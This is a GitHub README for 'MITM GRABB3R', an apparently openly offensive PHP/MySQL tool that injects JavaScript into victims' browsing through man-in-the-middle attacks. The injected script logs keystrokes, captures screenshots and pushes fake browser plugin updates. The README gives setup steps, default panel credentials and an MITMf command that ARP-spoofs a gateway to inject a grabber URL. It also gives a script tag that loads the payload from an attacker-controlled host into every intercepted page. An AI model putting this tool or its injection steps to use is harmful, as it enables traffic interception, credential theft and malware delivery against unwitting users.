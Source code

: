 
![version](https://img.shields.io/badge/version-1.0-blue.svg)

**MITM GRABB3R** is a PHP (MySQL) script that uses Javascript code to do various XSS "attacks" after you inject it via mitm attack.

INFO
===

This script can capture keystrokes of user input on websites, capture screenshots of pages and run fake browser plugin update.

Each clients history and captures can be viewed on a timeline.

!["DEMO"](https://raw.githubusercontent.com/ivangr0zni/mitm-grabb3r/master/demo.png)

HOW TO SET SCRIPT
===

Create and import database.sql in MySQL 

Upload php script from www to folder on your http server.

Edit

	/includes/settings.ini.php
	/includes/config.ini.php
	
Default web login is:

	Username:admin
	Password:1234
	
HOW TO: MITMf
===

Replace inject.py in plugins folder ( MITMf 0.9.8 ) with inject.py that contains small changes.


Example cmd:

	python mitmf.py -i eth0 --spoof --arp --gateway 192.168.1.1 --inject --grabber-url http://192.168.1.5/mitm/inject.php


Use other MITM software?
===

This script was tested on and used with MITMf but should be able to use it without any issues with other software.

If you make plugin for other software contact me and i will add plugin for it.

You need to inject code bellow into every page and then wait for data in panel.

	<script type="text/javascript" src="http://IP_OR_DOMAIN_AND_SCRIPT_PATH/inject.php?ip=IP_ADDRESS_OF_VICTIM"></script>

	
	
Contact
===

Twitter: @ivangr0zni